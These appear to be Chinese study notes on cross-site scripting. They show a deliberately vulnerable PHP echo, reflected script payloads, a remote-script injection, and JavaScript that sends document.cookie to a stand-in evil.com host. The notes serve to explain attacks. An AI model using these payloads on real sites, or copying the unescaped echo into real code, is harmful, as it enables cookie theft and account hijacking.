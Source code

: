 例：
```
<?php
$input = $_GET["param"];
echo "<div>" . $input . "</div>";
?>
```
提交这样一个请求：
```
test.php?param=<script>alert(/xss/)</script>
```

## XSS Payload
XSS Payload实际上就是JavaScript脚本，所以任何JavaScript脚本能实现的功能XSS Payload都能做到。比如读取Cookies，从而发起Cookies劫持攻击（Cookies中可能有登录凭证）；
例如攻击者先加载这样一个远程脚本：
http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>"，正在的Payload写在这个远程脚本中从而避免直接在URL参数中写入大量的Javascript代码。在evil.js中通过如下方式窃取Cookies：
```
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
【test.html的内容没有，上面的例子不通顺，艹】


同样的，可以通过img的src标签来发起GET请求。对于POST请求，则可以通过JavaScript动态构造一个表单，然后自动提交这个表单来实现：
```
var f = document.createElement("form");
f.action = "...";
f.method = "post";
document.body.appendChild(f);

var il = document.createElement("input");
il.name = "ck";
il.value = "dd";
f.append(il);

f.submit();
```

详略（很多历史问题原理的讨论，现已修复）。

通过style标签也能构造出XSS：
```
<div style="background: url('javascript:alert(1)')">
```

## XSS Worm
一般来说，用户之间发生交互行为的页面（发送站内信、用户留言等），如果存在存储型XSS，则比较容易发起XSS Worm攻击。
详略。

## XSS构造技巧
利用字符编码，绕过长度限制，利用<base>标签，利用window.name等，详略。
